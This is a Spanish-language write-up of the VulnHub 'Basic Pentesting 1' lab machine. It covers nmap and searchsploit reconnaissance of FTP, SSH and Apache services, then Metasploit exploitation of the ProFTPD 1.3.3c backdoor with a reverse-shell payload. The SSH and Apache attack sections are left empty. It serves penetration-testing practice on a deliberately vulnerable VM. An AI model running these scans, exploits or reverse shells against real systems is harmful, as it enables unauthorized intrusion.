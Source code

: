 # Máquina vulnerable de vulnhub
Dificultad: 
  Fácil

Fuente:
  https://www.vulnhub.com/entry/basic-pentesting-1,216/

<img src="https://www.vulnhub.com/media/img/entry/watermarked/abee4bba0a38da507a6e8697537f04af9dfa63a6.png" align="top" width="640" height="480"></img>

# Explotación de la máquina
Averiguramos la ip de la máquina a explotar
nmap -sL 192.168.56.0/24<br>
Nmap scan report for vtcsec (192.168.56.103)<p>
<img src="https://github.com/aguayro/ciberseguridad/blob/a745f89a3fc90a98d3a4f07b21de74ac652dc09a/pentesting/vulnhub/csec/img/nmap-01.png" align="top"></img>

Descubrir los puertos abiertos en la máquina<br>
nmap -p- -n -sC -sV -sS 192.168.56.103 -oN csec.txt<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/9d7277331e01053a7b9794343b4afd07f7897f5a/pentesting/vulnhub/csec/img/nmap-02.png" align="top"></img>

Resulta interesante el parametro -vvv del nmap<br>
nmap -vvv 192.168.56.103<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/53901a26143a93b583d1ade1f88935691a55f379/pentesting/vulnhub/csec/img/nmap-03.png" align="top"></img>

## Explotación de las vulnerabilidades
La máquina tiene abiertos los siguientes puertos:
<ul>
  <li>21 ftp ProFTPD 1.3.3c</li>
  <li>22 ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2</li>
  <li>80 http Apache/2.4.18 (Ubuntu)</li>
</ul>
    
<p></p>
Veamos que vulnerabilidades tiene los servicios indicados:<br>
nmap -script=vuln 192.168.56.103<br>

<img src="https://github.com/aguayro/ciberseguridad/blob/90586e32fd3113ce47e72e032c3452ac827ea62c/pentesting/vulnhub/csec/img/nmap-04.png" align="top"></img>  

### Servicio proftp 1.3.3c
La versión del proftp 1.3.3c tiene una puerta trasera que puede ser explotada<br>
    
searchsploit proftp 1.3.3c
<img src="https://github.com/aguayro/ciberseguridad/blob/b3316b172c48a3a956056b56326f179c04370e7d/pentesting/vulnhub/csec/img/proftp-01.png" align="top"></img> 

Tenemos dos script para poder usar para explotar la vulnerabilidad del servicio de puerta trasera, un script realizado en python y el otro para el framework metasploit
  
### Open ssh 7.2p2
Nmap no detecta ninguna vulnerabilidad en el servicio, pero si buscamos por searchsploit nos devuelve algunas cositas.
<img src="https://github.com/aguayro/ciberseguridad/blob/b13203f5b3d251772fd995fc7967ec690883c828/pentesting/vulnhub/csec/img/open-ssh-01.png" align="top"></img> 

Es posible realizar enumeración de los usuarios, por otro lado buscando en internet nos aparecen varias referencias a vulnerabilidad en versiones anteriores 

<a href="https://thehackernews.com/2023/07/new-openssh-vulnerability-exposes-linux.html">Vulnerabilidad openssh < 9.2</a>

### Apache httpd 2.4.18
Nmap nos reportado vulnerable a ataque DOS, buscamos información sobre posibles fallos en la versión de apache 2.4.18 y encontramos lo siguiente:<br>

searchsploit apache 2.4.18
<img src="https://github.com/aguayro/ciberseguridad/blob/96659ac542e55b25fa49831a77b3881da6f26b60/pentesting/vulnhub/csec/img/apache-01.png" align="top"></img> 

Vulnerabilidad de apache que permite la escalación de privilegios: CVE-2019-0211<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/841df8e72fdfcb8f6714df3ae4d7d29437f65a6a/pentesting/vulnhub/csec/img/apache-02.png" align="top"></img> 

Vulnerabilidad de memory leak: CVE-2017-9798<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/aa60a0c51dd73f839bc34c3d3c09817d829f5e8d/pentesting/vulnhub/csec/img/apache-03.png" align="top"></img> 

Por otro lado hay que investigar que se esconde dentro de la carpeta /secret

<hr>

# Vectores de ataque:
## Vulnerabilidad proftp 1.3.3c
Ejecutamos metasploit
<img src="https://github.com/aguayro/ciberseguridad/blob/ae116da2525d422aff0965f39b89ef32cff38a60/pentesting/vulnhub/csec/img/metasploit.png" align="top"></img> 

Buscamos vulnetabilidad para el servicio ftp para la versión de 1.3.3c de proftp
msf6 > search proftp 1.3.3c
<img src="https://github.com/aguayro/ciberseguridad/blob/40d937f0b8672e179afb9c60320a9e1b2989c72b/pentesting/vulnhub/csec/img/proftp-02.png" align="top"></img> 

Usamos el script por defecto y lo configuramos<br>
msf6 > use 0
<img src="https://github.com/aguayro/ciberseguridad/blob/40d937f0b8672e179afb9c60320a9e1b2989c72b/pentesting/vulnhub/csec/img/proftp-03.png" align="top"></img> 

Cargamos un payload para que nos crea una sessión en la máquina atacada
msf6 > show payloads
msf6 > set payload payload/cmd/unix/reverse
<img src="https://github.com/aguayro/ciberseguridad/blob/e9911ef860e7613d0b3da81e09fdb1e9094b0099/pentesting/vulnhub/csec/img/proftp-04.png align="top"></img> 

Lanzamos el script
msf6 > run

## Vulnerabilidad open ssh 7.2p2

## Vulnerabilidad Apache 2.4.18

  
